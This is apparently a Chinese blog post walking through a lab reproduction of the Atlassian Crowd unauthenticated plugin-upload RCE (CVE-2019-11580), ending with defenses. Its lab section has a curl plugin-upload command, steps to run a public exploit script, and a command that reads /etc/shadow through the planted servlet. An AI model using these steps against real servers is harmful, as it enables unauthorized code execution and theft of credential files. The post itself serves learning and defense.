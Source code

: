 # Atlassian Crowd未授权访问漏洞



#### 漏洞概述
Atlassian Crowd和Atlassian Crowd Data Center都是澳大利亚Atlassian公司的产品。Atlassian Crowd是一套基于Web的单点登录系统。该系统为用用户、网络应用程序和目录服务器提供验证、授权等功能。Atlassian Crowd Data Center是Crowd的集群部署版。Atlassian Crowd和Crowd Data Center在其某些发行版本中错误地启用了了pdkinstall开发插件,使其存在安全漏漏洞洞。攻击者利用该漏洞可在未授权访问的情况下对Atlassian Crowd和Crowd Data Center安装任意的恶意插件,执行任意代码/命令,从而获得服务器权限


#### 环境搭建
```bash
wget https://product-downloads.atlassian.com/software/crowd/downloads/atlassian-crowd-3.4.3.zip
unzip atlassian-crowd-3.4.3.zip

cd atlassian-crowd-3.4.3
vim crowd-webapp/WEB-INF/classes/crowd-init.properties    #修改crowd-init.properties 配置文件，设置主目录
    crowd.home=/var/crowd-home    # 主目录位置(根据自己的写)

# 执行启动命令
./start_crowd.sh
```
浏览器访问`http://192.168.0.100:8095` 点击`Set up Crowd`
这里去官网申请试用30天`https://my.atlassian.com/products/index`并填写到license 进行下一步安装,直到安装完成。


###### 未授权访问测试
安装完成之后在插件目录会有一些插件`bundled-plugins`
上传一个标准的插件,来自atlassian-bundled-plugins中的`applinks-plugin-5.4.12.jar`
```bash
curl --form "file_cdl=@applinks-plugin-5.4.12.jar" http://192.168.0.100:8095/crowd/admin/uploadplugin.action -v
```


###### Atlassian Crowd RCE
该漏洞源于网络系统或产品未对输入的数据进行正确的验证。受影响的产品及版本包括：Atlassian Crowd 2.1.x版本，3.0.5之前的3.0.x版本，3.1.6之前的3.1.x版本，3.2.8之前的3.2.x版本，3.3.5之前的3.3.x版本，3.4.4之前的3.4.版本；Atlassian Crowd Data Center 2.1.x版本，3.0.5之前的3.0.x版本，3.1.6之前的3.1.x版本，3.2.8之前的3.2.x版本，3.3.5之前的3.3.x版本，3.4.4之前的3.4.版本。

漏洞利用脚本：`https://github.com/jas502n/CVE-2019-11580`
```bash
git clone https://github.com/jas502n/CVE-2019-11580
cd CVE-2019-11580/
python CVE-2019-11580.py http://192.168.0.100:8095

# 通过浏览器访问链接测试其他命令
curl http://192.168.0.100:8095/crowd/plugins/servlet/exp?cmd=cat%20/etc/shadow
```




#### 防御手段
- 设置访问`/crowd/admin/uploadplugin.action`的源ip
- 升级最新版本(3.5.0以上)。










---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/atlassian-crowd%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E/  


